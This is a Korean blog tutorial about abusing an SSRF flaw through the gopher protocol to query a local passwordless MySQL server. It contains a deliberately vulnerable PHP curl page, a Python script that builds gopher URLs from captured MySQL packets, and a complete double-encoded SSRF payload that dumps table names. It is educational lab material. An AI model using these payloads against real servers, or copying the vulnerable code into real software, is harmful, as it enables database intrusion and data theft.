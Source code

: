```yaml
---
layout: post
title:  "SSRF Gopher Protocol을 이용하여 MySQL 주입(SSRF Through Gopher)"
tags: [WEB-Vuln]
excerpt: "SSRF 취약점이 발생할 때 Gopher Protocol을 이용하여 MySQL에 쿼리를 주입하여 있는 데이터베이스 정보를 탈취할 수 있습니다."
---
```

---

# Gopher 이란?([rfc 1436](https://datatracker.ietf.org/doc/html/rfc1436))

Gopher(고퍼)는 가서(Go) 가져온다(Fer)으로 가서 퍼온다라는 의미를 가지고 있으며 미네소타 대학에서 다양한 일정을 쉽게 관리하기 위해 만들어지면서 시작되었는데요

이 Gopher(고퍼)는 웹이 개발되기 전 FTP, Telnet과 같은 다양한 인터넷 서비스를 이용할 수 있게 됐습니다. 

하지만 HTTP가 개발되면서 대부분의 사용자들은 HTTP로 이용하게 되면서 Gopher은 현재 잘 쓰지 않는 프로토콜이라고 알려져있는데요

해당 Gopher(고퍼)를 이용하여 HTTP 요청, MySQL 연결, FTP 등 다양한 기능을 사용할 수 있습니다.

예시로 HTTP 요청의 경우 아래와 같이 80포트로 gopher 프로토콜을 이용하여 헤더를 생성하여 요청을 보내면 서버에서 Response를 받아 그대로 출력하는걸 볼 수 있습니다.

```bash
root@/var/www/html$ # GET / HTTP/1.1
root@/var/www/html$ # Host: localhost
root@/var/www/html$ curl gopher://127.0.0.1:80/_GET%20/%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0a
HTTP/1.1 200 OK
Date: Mon, 13 Sep 2021 14:47:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Mon, 13 Sep 2021 14:45:51 GMT
ETag: "17-5cbe1857b1730"
Accept-Ranges: bytes
Content-Length: 23
Content-Type: text/html

Hello Gopher Protocol!
```

또한 리눅스에서 nc와 curl을 이용하여 원하는 값을 전송할 수 있습니다.

![Gopher curl to nc](\post-images\SSRF\Gopher-Protocol\gopher-curl-nc.png)

---

# SSRF Example

먼저 Gopher 프로토콜을 이용하여 MySQL 데이터베이스의 정보를 탈취하는 시나리오를 위해서는 SSRF 취약점이 발생할 수 있는 페이지를 만들었습니다.

### index.php

```php
<?php 

if(isset($_GET['url'])){
    $cn = curl_init();
    curl_setopt($cn, CURLOPT_URL, $_GET['url']);
    $result = curl_exec($cn);

    echo $result;
}else{
    echo "?url=https://www.google.com";
}

?>
```

---

### hello.php

```php
Hello CURL hello.php
```

이렇게 php-curl을 이용하여 요청할 수 있는 환경을 만든 다음 ``?url=http://localhost/hello.php`` 를 넣어주게되면 해당 URL으로 요청하게 되면서 SSRF 취약점이 발생할 수 있게 됩니다.

---

## Gopher을 이용한 MySQL 데이터베이스 정보 탈취

SSRF가 취약점이 발생할 수 있는 서버의 MySQL 유저의 비밀번호가 없는 경우 Gopher 프로토콜을 이용하여 MySQL에 연결할 수 있게 됩니다.

---

#### MySQL 비밀번호 삭제

다음과 같은 명령어를 이용하여 비밀번호를 없앤 다음

```sql
mysql> alter user 'root'@'localhost' identified with mysql_native_password by '';
```

MySQL에 연결하는 패킷을 잡기 위해 PHP 소스코드로 연결하고 원하는 쿼리를 전송하고

---

### Wireshark MySQL Packet Capture

---

#### MySQL 연결

```php
<?php 

$conn = new mysqli("localhost", "root", "");
$conn->query("SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES");

?>
```

![Wireshark Packet MySQL](\post-images\SSRF\Gopher-Protocol\Wireshark-Packet-MySQL.png)

Wireshark(와이어샤크)를 이용해 로컬의 MySQL Packet를 캡쳐하면 위의 사진과 같이 MySQL의 요청, 응답 패킷이 캡쳐된걸 볼 수 있습니다.

---

### 캡쳐된 패킷 우클릭 후 ``Follow->TCP stream``

![MySQL Packet TCP stream](\post-images\SSRF\Gopher-Protocol\MySQL-Packet-TCP-stream.png)

캡쳐된 MySQL 패킷중 아무거나 눌러주면 되는데 괜히 헷갈리다가 삽질할 수 있으니 요청의 시작인 ``Login Request user=root`` 부분에 우클릭 한 다음 ``Follow`` 부분에 있는 ``TCP stream``을 누르면

---

### TCP stream의 ``::1:50731 -> ::1:3306(149 bytes)``를 눌러 요청된 캡쳐를 가지고 Show data as을 RAW으로 변경

![MySQL TCP Stream REQUEST RESPONSE](\post-images\SSRF\Gopher-Protocol\MySQL-TCP-Stream-Request-Response.png)

위의 사진처럼 요청(빨간색), 응답(파란색)이 있는걸 볼 수 있는데 요청 패킷만 가져오기 위해서

![TCP Stream ASCII Request]((\post-images\SSRF\Gopher-Protocol\TCP-Stream-ASCII-Request.png)

하단에 있는 ``::1:50731 -> ::1:3306 (149 bytes)`` 부분을 눌러 확인하면

![TCP stream RAW](\post-images\SSRF\Gopher-Protocol\TCP-stream-RAW.png)

이렇게 요청 값만 보이게 됩니다. 

요청 값들을 URL으로 전송하기 위해 Show data as ASCII 부분을 RAW 으로 바꿔주면 아래와 같이 HEX로 인코딩된 데이터 값이 나오는데

![TCP REQUEST RAW HEX Encoding](\post-images\SSRF\Gopher-Protocol\MySQL-TCP-Stream-Request-HEX.png)

해당 HEX 데이터를 모두 복사한 다음 줄바꿈을 없애고 해당 python 코드를 실행시키면

```py
def gopher_raw_data(payloads):
    payloads = [payloads[i:i + 2] for i in range(0, len(payloads), 2)]

    print("gopher://127.0.0.1:3306/_%{}".format("%".join(payloads)))

gopher_raw_data("5300000185a20a00000000c0ff0000000000000000000000000000000000000000000000726f6f740000006d7973716c5f6e61746976655f70617373776f726400150c5f636c69656e745f6e616d65076d7973716c6e6400000003310000000353454c454354205441424c455f4e414d452046524f4d20494e464f524d4154494f4e5f534348454d412e5441424c45530100000001")
```

``SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES;`` 쿼리를 실행할 수 있는 gopher URL이 나옵니다.

```
gopher://127.0.0.1:3306/_%53%00%00%01%85%a2%0a%00%00%00%00%c0%ff%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%15%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%07%6d%79%73%71%6c%6e%64%00%00%00%03%31%00%00%00%03%53%45%4c%45%43%54%20%54%41%42%4c%45%5f%4e%41%4d%45%20%46%52%4f%4d%20%49%4e%46%4f%52%4d%41%54%49%4f%4e%5f%53%43%48%45%4d%41%2e%54%41%42%4c%45%53%01%00%00%00%01
```

이제 해당 URL을 SRF 취약저밍 터지는 서버 내부의 CURL에 그대로 전송하기 위해 double url encoding하면

```
http://localhost?url=gopher://127.0.0.1:3306/_%25%35%33%25%30%30%25%30%30%25%30%31%25%38%35%25%61%32%25%30%61%25%30%30%25%30%30%25%30%30%25%30%30%25%63%30%25%66%66%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%30%30%25%37%32%25%36%66%25%36%66%25%37%34%25%30%30%25%30%30%25%30%30%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%35%66%25%36%65%25%36%31%25%37%34%25%36%39%25%37%36%25%36%35%25%35%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%30%30%25%31%35%25%30%63%25%35%66%25%36%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%35%66%25%36%65%25%36%31%25%36%64%25%36%35%25%30%37%25%36%64%25%37%39%25%37%33%25%37%31%25%36%63%25%36%65%25%36%34%25%30%30%25%30%30%25%30%30%25%30%33%25%33%31%25%30%30%25%30%30%25%30%30%25%30%33%25%35%33%25%34%35%25%34%63%25%34%35%25%34%33%25%35%34%25%32%30%25%35%34%25%34%31%25%34%32%25%34%63%25%34%35%25%35%66%25%34%65%25%34%31%25%34%64%25%34%35%25%32%30%25%34%36%25%35%32%25%34%66%25%34%64%25%32%30%25%34%39%25%34%65%25%34%36%25%34%66%25%35%32%25%34%64%25%34%31%25%35%34%25%34%39%25%34%66%25%34%65%25%35%66%25%35%33%25%34%33%25%34%38%25%34%35%25%34%64%25%34%31%25%32%65%25%35%34%25%34%31%25%34%32%25%34%63%25%34%35%25%35%33%25%30%31%25%30%30%25%30%30%25%30%30%25%30%31
```

![SSRF database tables list](\post-images\SSRF\Gopher-Protocol\ssrf-tables.png)

이렇게 SSRF 취약점을 이용하여 gopher 프로토콜로 데이터베이스의 정보를 탈취할 수 있는걸 볼 수 있었습니다.

---

## 후기

SSRF 취약점을 이용하여 웹 페이지의 소스코드만 가져올 수 있는게 아니라는걸 알 수 있었습니다.
